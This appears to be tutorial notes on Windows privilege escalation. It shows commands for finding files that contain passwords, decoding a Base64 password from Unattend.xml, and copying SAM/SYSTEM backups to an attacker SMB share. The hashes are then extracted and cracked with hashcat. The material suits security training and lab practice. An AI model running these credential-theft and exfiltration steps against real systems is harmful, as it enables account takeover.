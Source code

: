 ## Searching for Configuration Files
Recursively search for files in the current directory with “pass” in the name, or ending in “.config”:
```
dir /s *pass* == *.config
```
Recursively search for files in the current directory that contain the word “password” and also end in either .xml, .ini, or .txt:
```
findstr /si password *.xml *.ini *.txt
```

### Privilege Escalation
1. Use winPEAS to search for common files which may
contain credentials:
```
.\winPEASany.exe quiet cmd searchfast filesinfo
```
2. The Unattend.xml file was found. View the contents:
```
type C:\Windows\Panther\Unattend.xml
```
3. A password for the admin user was found. The password is Base64 encoded: cGFzc3dvcmQxMjM=
4. On Kali we can easily decode this:
```
echo "cGFzc3dvcmQxMjM=" | base64 -d
```
5. Once again we can simply use winexe to spawn a shell as
the admin user.

## SAM
Windows stores password hashes in the Security Account Manager (SAM).

The hashes are encrypted with a key which can be found in a file named SYSTEM.

If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.

## SAM/SYSTEM Locations
The SAM and SYSTEM files are located in the `C:\Windows\System32\config` directory.
The files are locked while Windows is running.
Backups of the files may exist in the `C:\Windows\Repair` or `C:\Windows\System32\config\RegBack` directories.

### Privilege Escalation
1. Backups of the SAM and SYSTEM files can be found in
`C:\Windows\Repair` and are readable by our user.
2. Copy the files back to Kali:
```
copy C:\Windows\Repair\SAM \\192.168.1.11\tools\
copy C:\Windows\Repair\SYSTEM \\192.168.1.11\tools\
```
3. Download the latest version of the creddump suite:
```
git clone https://github.com/Neohapsis/creddump7.git
```
4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:
```
python2 creddump7/pwdump.py SYSTEM SAM
```
5. Crack the admin user hash using hashcat:
```
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```
